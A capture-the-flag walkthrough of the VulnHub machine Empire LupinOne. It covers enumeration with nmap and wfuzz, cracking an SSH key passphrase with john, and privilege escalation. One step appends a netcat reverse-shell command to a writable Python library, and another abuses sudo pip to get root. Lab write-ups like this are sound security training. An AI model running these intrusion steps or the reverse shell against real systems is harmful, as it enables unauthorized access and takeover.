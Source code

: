```yaml
---
title: VulnHub - Empire LupinOne
author: s4rgaz
date: 2022-08-29 15:40:33 +0800
categories: [Walkthrough, VulnHub]
tags: [vulnhub, file disclosure]
---
```


**Description:** A linux machine which requires further enumeration on the website to discover a weak ssh private key allowing access to the server. Certain bad practices like setting scripts with sudo permissions allowed elevate the access level and gain root privileges.

**Authors:** icex64 & Empire Cybersecurity

**Operating System:** Linux

**Download:** [https://www.vulnhub.com/entry/empire-lupinone,750/](https://www.vulnhub.com/entry/empire-lupinone,750/)

## Information Gathering
### Host Discovery

The following ARP scan discovered the target machine.

```console
root@kali:~# netdiscover -i vmnet1 -r 172.16.178.0/24
Currently scanning: Finished!   |   Screen View: Unique Hosts

 2 Captured ARP Req/Rep packets, from 2 hosts.   Total size: 102
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname
 -----------------------------------------------------------------------------
 172.16.178.138  00:0c:29:2c:a9:e3      1      60  VMware, Inc.
 172.16.178.254  00:50:56:ed:6c:b4      1      42  VMware, Inc.
```

### Port Scanning

A full TCP port scan discovered two available open ports.

```console
root@kali:~# nmap -v -n -p- -T4 --open -Pn 172.16.178.138 -oG nmap/all-tcp-ports.txt
...
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

### Service Enumeration

With the objective to discover more information regarding open ports an aggressive scan was performed.

```console
root@kali:~# nmap -v -n -p22,80 -A -Pn 172.16.178.138 -oN nmap/service-enum.txt
...
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5 (protocol 2.0)
| ssh-hostkey:
|   3072 ed:ea:d9:d3:af:19:9c:8e:4e:0f:31:db:f2:5d:12:79 (RSA)
|   256 bf:9f:a9:93:c5:87:21:a3:6b:6f:9e:e6:87:61:f5:19 (ECDSA)
|_  256 ac:18:ec:cc:35:c0:51:f5:6f:47:74:c3:01:95:b4:0f (ED25519)
80/tcp open  http    Apache httpd 2.4.48 ((Debian))
|_http-title: Site doesn't have a title (text/html).
| http-methods:
|_  Supported Methods: GET POST OPTIONS HEAD
| http-robots.txt: 1 disallowed entry
|_/~myfiles
|_http-server-header: Apache/2.4.48 (Debian)
```

### Web Enumeration

Browsing the web page I did not find valuable information.

![](/assets/images/empire/screenshot-1.png)

I noticed in the nmap output the **/~myfiles** directory, I accessed this resource.

![](/assets/images/empire/screenshot-2.png)

I ran wfuzz to discover web content and found the **/~secret** directory.

```console
root@kali:~/scripts# wfuzz -v --hc 403,404 -z file,/usr/share/dirb/wordlists/common.txt http://172.16.178.138/~FUZZ
...
=====================================================================
ID           Response   Lines    Word       Chars       Payload
=====================================================================

000003537:   301        9 L      28 W       318 Ch      "secret"
```

I accessed to the **/~secret** directory and found a note describing that there is a ssh private key hidden somewhere on the web page.

![](/assets/images/empire/screenshot-3.png)

I continued with the enumeration and found the **.mysecret.txt** file.

```console
root@kali:~/scripts# wfuzz -c --hc 403,404 -z file,/usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt http://172.16.178.138/~secret/.FUZZ.txt
...
000073703:   200        1 L      1 W        4689 Ch     "mysecret"
```

This contains an encoded text.

![](/assets/images/empire/screenshot-4.png)


## Exploitation
### Weak ssh key password

To detect the type of encoding performed on the ssh key, I accessed to the following link: [https://www.dcode.fr/cipher-identifier](https://www.dcode.fr/cipher-identifier)

![](/assets/images/empire/screenshot-5.png)

The ssh key is base58 encoded, so I downloaded it, decoded it, and saved it into a file.

```console
root@kali:~# curl -s "http://172.16.178.138/~secret/.mysecret.txt" | base58 -d > id_rsa
```

I converted the ssh private key to a hash format, then with john the ripper I cracked the hash and got the password.

```console
root@kali:~# ssh2john id_rsa > john_rsa

root@kali:~# john john_rsa -wordlist=/usr/share/wordlists/fasttrack.txt
...
P@55w0rd!        (id_rsa)
```

I granted limited permissions to the private key, and logged in via ssh.

```console
root@kali:~# chmod 600 id_rsa

root@kali:~# ssh icex64@172.16.178.138 -i id_rsa
Enter passphrase for key 'id_rsa':
Linux LupinOne 5.10.0-8-amd64 #1 SMP Debian 5.10.46-5 (2021-09-23) x86_64
########################################
Welcome to Empire: Lupin One
########################################
Last login: Thu Oct  7 05:41:43 2021 from 192.168.26.4
icex64@LupinOne:~$ ls
user.txt
```

In the icex64's user the first flag was found.

```console
icex64@LupinOne:~$ tail -1 user.txt
3mp!r3{I_See_That_You_Manage_To_Get_My_Bunny}
```

I noted that the user **icex64** can run the heist.py script with sudo permissions as the user **arsene**.

```console
icex64@LupinOne:~$ sudo -l
Matching Defaults entries for icex64 on LupinOne:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User icex64 may run the following commands on LupinOne:
    (arsene) NOPASSWD: /usr/bin/python3.9 /home/arsene/heist.py
```

## Privilege Escalation
### Sudo Permissions

It is observed that the python script is importing the module webbrowser.

```console
icex64@LupinOne:/home/arsene$ cat heist.py
import webbrowser

print ("Its not yet ready to get in action")

webbrowser.open("https://empirecybersecurity.co.mz")
```

Since I do not have privileges to write this script, I found out that I have permissions to write to the **webbrowser** library.

```console
icex64@LupinOne:/home/arsene$ find / -writable -type f 2>/dev/null | grep -Ev 'proc|sys'
...
/usr/lib/python3.9/webbrowser.py
```

I added the **system** function to the **/usr/lib/python3.9/webbrowser.py** script so that it executes a netcat payload.

```console
icex64@LupinOne:/home/arsene$ echo 'os.system("nc 172.16.178.1 443 -e /bin/bash")' >> \
> /usr/lib/python3.9/webbrowser.py
```

I started a netcat listener on port 443, and executed the following command.

```console
icex64@LupinOne:/home/arsene$ sudo -u arsene /usr/bin/python3.9 /home/arsene/heist.py
```

I got a shell with privileges of user **arsene**.

```console
root@kali:~# nc -vlnp 443
listening on [any] 443 ...
connect to [172.16.178.1] from (UNKNOWN) [172.16.178.138] 60732
python3 -c 'import pty; pty.spawn("/bin/bash")'
arsene@LupinOne:~$
```

By listing the sudo permissions, **arsene** has permissions to execute the pip command as sudo.

```console
arsene@LupinOne:~$ sudo -l
sudo -l
Matching Defaults entries for arsene on LupinOne:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User arsene may run the following commands on LupinOne:
    (root) NOPASSWD: /usr/bin/pip
```

I followed the GTFOBINS instructions to escalate privileges, this can be found [here](https://gtfobins.github.io/gtfobins/pip/#sudo)

The following commands create an arbitrary python module and install it, giving me a root shell.

```console
arsene@LupinOne:~$ sudo /usr/bin/pip install $TF
sudo /usr/bin/pip install $TF
Processing /tmp/tmp.hjxBPCh97j
root@LupinOne:/tmp/pip-req-build-fokc5kqf# id
id
uid=0(root) gid=0(root) groups=0(root)
```

```console
root@LupinOne:~# tail -2 root.txt
tail -2 root.txt
3mp!r3{congratulations_you_manage_to_pwn_the_lupin1_box}
See you on the next heist.
```
